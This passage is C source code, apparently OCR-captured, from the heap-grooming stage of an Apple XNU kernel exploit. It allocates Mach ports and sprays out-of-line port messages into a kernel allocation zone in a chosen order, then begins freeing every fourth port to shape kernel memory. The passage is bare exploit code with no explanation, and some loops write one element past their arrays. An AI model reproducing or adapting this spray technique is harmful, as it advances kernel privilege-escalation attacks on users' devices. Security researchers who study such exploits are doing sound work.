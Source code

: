 		mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &ool_ports[current_port_num]); // Alloc Port
		mach_port_insert_right(mach_task_self(), ool_ports[current_port_num], ool_ports[current_port_num], MACH_MSG_TYPE_MAKE_SEND); // MACH_MSG_TYPE_MAKE_SEND Right Set.
	}

	// Part 2. Create Message Buffer (Spray)
	mach_port_t* use_ports = calloc(1024, sizeof(mach_port_t));

	for(int i = 0; i <= 1024; i++){
		use_ports[i] = MACH_PORT_DEAD;
	}

	/* Set MSG HEADER */
	send_msg.msg_head.msgh_bits = MACH_MSGH_BITS_COMPLEX | MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
	send_msg.msg_head.msgh_size = sizeof(struct ool_send_msg) - 16;
	send_msg.msg_head.msgh_remote_port = MACH_PORT_NULL;
	send_msg.msg_head.msgh_local_port = MACH_PORT_NULL; // NULL SEND
	send_msg.msg_head.msgh_reserved = 0x00;
	send_msg.msg_head.msgh_id = 0x00;
	
	/* SET MSG BODY */
	send_msg.msg_body.msgh_descriptor_count = 1;
	
	/* SET MSG OOL PORT DESCRIPTOR */
	for(int i = 0; i<=16; i++){ // appropriate ipc-send size  
		send_msg.msg_ool_ports[i].address = use_ports;
		send_msg.msg_ool_ports[i].count = 32; // kalloc 0x100 (256)
		send_msg.msg_ool_ports[i].deallocate = 0x00;
		send_msg.msg_ool_ports[i].copy = MACH_MSG_PHYSICAL_COPY;
		send_msg.msg_ool_ports[i].disposition = MACH_MSG_TYPE_MAKE_SEND;
		send_msg.msg_ool_ports[i].type = MACH_MSG_OOL_PORTS_DESCRIPTOR;
	}

	// Part 3. Message Fengshui
	/* SEND MSG */
	for(current_port_num = 0; current_port_num < USE_PORT_START; current_port_num++){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}
	for(current_port_num = USE_PORT_END; current_port_num < PORT_COUNT; current_port_num++){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}
	for(current_port_num = USE_PORT_START; current_port_num < USE_PORT_END; current_port_num++){
		send_msg.msg_head.msgh_remote_port = ool_ports[current_port_num];
		kern_return_t send_result = mach_msg(&send_msg.msg_head, MACH_SEND_MSG | MACH_MSG_OPTION_NONE, send_msg.msg_head.msgh_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
		if(send_result != KERN_SUCCESS){
			printf("[-] Error in OOL Fengshui send\nError : %s\n", mach_error_string(send_result));
			exit(1);
		}
	}

	/* RECV MSG */
	for(current_port_num = USE_PORT_START; current_port_num < USE_PORT_END; current_port_num += 4){
		recv_msg.msg_head.msgh_local_port = ool_ports[current_port_num];